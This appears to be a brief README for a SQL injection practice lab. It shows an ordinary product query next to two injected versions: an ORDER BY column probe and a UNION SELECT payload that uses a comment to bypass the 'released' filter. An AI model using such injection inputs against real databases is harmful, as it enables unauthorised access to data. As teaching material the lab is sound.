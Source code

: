 ### sqli-lab

Example sql query to reproduce
```
select product_name, price from products where category='toys' AND released=true
```

Example injected query
```
select product_name, price from products where category='toys' ORDER BY 1,2  --' AND released=true
select product_name, price from products where category='toys' UNION select 'inject', null --' AND released=true  
``` 
